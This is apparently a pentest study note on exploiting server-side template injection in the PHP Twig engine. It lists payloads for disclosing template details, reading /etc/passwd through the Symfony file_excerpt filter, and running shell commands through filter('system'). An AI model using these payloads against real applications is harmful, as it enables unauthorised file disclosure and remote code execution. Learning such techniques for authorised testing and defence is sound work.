 # Exploiting SSTI - Twig

**Exploitation Techniques**

1. **Understanding Twig**:
   * Twig is a template engine used in PHP applications.
   * It allows for dynamic content generation but can also be exploited if vulnerabilities are present.
2. **Information Disclosure**:
   * **Obtain Template Information**:
     *   Use the following payload to get basic information about the current template:

         ```twig
         {{ _self }}
         ```
     *   Access the application at:

         ```twig
         http://<SERVER_IP>:<PORT>/
         ```
     * Note: The information obtained is limited compared to other template engines like Jinja.
3. **Local File Inclusion (LFI)**:
   * **Read Local Files**:
     *   While Twig does not directly support reading local files, you can use the `file_excerpt` filter provided by the Symfony framework:

         ```twig
         {{ "/etc/passwd"|file_excerpt(1,-1) }}
         ```
     *   Access the application at:

         ```twig
         http://<SERVER_IP>:<PORT>/
         ```
4. **Remote Code Execution (RCE)**:
   * **Execute Commands**:
     *   To achieve remote code execution, you can use PHP's built-in `system` function with Twig's filter functionality:

         ```twig
         {{ ['id'] | filter('system') }}
         ```
     *   Access the application at:

         ```twig
         http://<SERVER_IP>:<PORT>/
         ```
